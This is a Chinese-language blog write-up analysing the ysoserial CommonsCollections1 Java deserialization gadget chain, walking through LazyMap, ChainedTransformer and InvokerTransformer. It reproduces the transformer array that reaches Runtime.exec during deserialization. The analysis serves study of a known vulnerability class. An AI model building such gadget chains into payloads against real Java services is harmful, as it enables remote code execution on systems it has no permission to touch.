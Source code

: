```yaml
---
title: ysoserial-CommonCollections1
categories:
 - ysoserial
tags:
- ysoserial
- 反序列化

---
```


ysoserial-CommonCollections1利用链分析

# 环境

`jdk 1.7`

`Commons Collections 3.1`

# 利用链分析

CommonsCollections1类描述

```
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
```

## Way to LazyMap

ysoserial中使用的LazyMap和TransformedMap的区别是TransformedMap是在写入元素的时候执行transform，而LazyMap是在其get方法中执行的 factory.transform，因此我们要找到一条到LazyMap.get()的链

![image-20210417220658515](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417220658515.png)

在AnnotationInvocationHandler.invoke()中调用了get()，这里invoke()又可以通过对象代理来调用。AnnotationInvocationHandler是一个InvocationHandler，我们如果将这个对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到 invoke 方法中，进而触发我们的LazyMap.get()  

在ysoserial实现的方法如下

```java
final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
```

## LazyMap

这里分析一下LazyMap.get()的作用

`final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);`

```java
public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
}
```

```Java
public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```

这里的get中的this.factory.transform(key)实际上就调用了transformerChain.transform(key)，这个key为什么不影响，重要的是进入ChainedTransformer.transform()下面分别分析下几个重要的类的作用。

## ChainedTransformer

```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}

public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

ChainedTransformer也是实现了Transformer接⼝的⼀个类，它的作⽤是将内部的多个Transformer串在⼀起。在transform方法中前⼀个回调返回的结果，作为后⼀个回调的参数传⼊

在调试的调用栈中，我们可以看到this.iTransformers中有一下几个类，所以接下来分析一下ConstantTransformer和InvokerTransformer

![image-20210417223322451](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417223322451.png)

## ConstantTransformer

```java
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
```

ConstantTransformer是实现了Transformer接⼝的⼀个类，它的过程就是在构造函数的时候传⼊⼀个对象，并在transform⽅法将这个对象再返回 ，前面提到key不影响的原因就是这个input不影响返回对象。

## InvokerTransformer

InvokerTransformer是实现了Transformer接⼝的⼀个类，这个类可以⽤来执⾏任意⽅法，这也是反序列化能执⾏任意代码的关键。

在实例化这个InvokerTransformer时，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表 

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
## 命令执行

我们来看看这段代码是如何执行命令的

```java
final Transformer transformerChain = new ChainedTransformer(
    new Transformer[]{ new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };
```

```
1.Runtime.class是第一个元素对象调用transform方法的返回值
2.(Runtime.class).getMethod("getRuntime",null)的结果是第二个元素对象调用transform方法的返回值
3.((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)的结果是第三个元素对象调用transform方法的返回值
4.(((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)).exec(execArgs)的结果是第四个元素对象调用transform方法的返回值。这个结果就是执行了execArgs。
5.ConstantTransformer(1)按照P神的说法是隐藏异常日志中的一些信息
```

## 小结

这篇文章因为从正向分析，不利于理解，适合已经了解该利用链基本原理的读者对利用链进行一个梳理。ysoserial中的CommonCollections1实现巧妙的用到了对象代理来调用invoke。之前在有的文章中看到在高版本的jdk中无法调用cc1是因为AnnotationInvocationHandler中的setValue方法被取消了，但是LazyMap从另一条利用链调用了transform依旧在高版本的jdk中失效了，在后续的文章中将其进行进一步的分析。

# 参考

[1] Java安全漫谈 - .反序列化篇(3)~(5)
[2] [Java反序列化（三）Common Collection 1分析](https://blog.csdn.net/qq_41918771/article/details/115242949)